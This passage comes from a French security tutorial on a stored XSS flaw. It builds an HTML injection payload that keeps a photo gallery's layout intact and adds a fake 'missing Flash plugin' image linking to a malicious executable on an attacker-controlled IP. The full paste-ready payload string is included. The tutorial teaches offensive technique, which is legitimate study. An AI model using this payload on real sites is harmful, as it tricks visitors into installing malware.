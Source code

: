 La pop-up est bien apparue, notre XSS fonctionne.

### Faux plugin Flash manquant

Afin que la victime télécharge l'exécutable malveillant, nous allons simuler l'absence d'un plugin flash. Pour cela, très simplement, j'ai pris une capture d'écran de ce qui est affiché quand Flash n'est pas activé

[![flash](/assets/uploads/2017/09/flash.png)](/assets/uploads/2017/09/flash.png)

Le but étant que la victime pense vraiment à un plugin Flash manquant, nous allons devoir construire un payload qui ne casse pas toute l'interface graphique du site. Ainsi, nous allons imiter son comportement. Voici le résultat attendu normalement :

```html
<img src='./img/Sunset.jpg' title='Mon image' style='width: 100px; height: auto; padding: 10px;' />
```

Et voilà ce que ça donnera une fois qu'on aura exploité la faille

```html
<img src='./img/Sunset.jpg' title='Hackndo' style='width: 100px; height: auto; padding: 10px;' />
<br />
<br />
<a href='http://192.168.1.104/flash_update.exe'>
    <img src='http://192.168.1.104/flash.png' />
</a>
<p alt='' />
```

Cela aura pour effet d'afficher l'image `Sunset.jpg` avec le même style que les images précédantes, puis d'afficher en dessous l'image de plugin manquant, avec un lien vers l'exécutable malveillant. Si nous envoyons cela en description d'une photo, voilà ce que ça donne

```
Hackndo' style='width: 100px; height: auto; padding: 10px;' /><br /><br /><a href='http://192.168.1.104/flash_update.exe'><img src='http://192.168.1.104/flash.png' /></a><p alt='
```
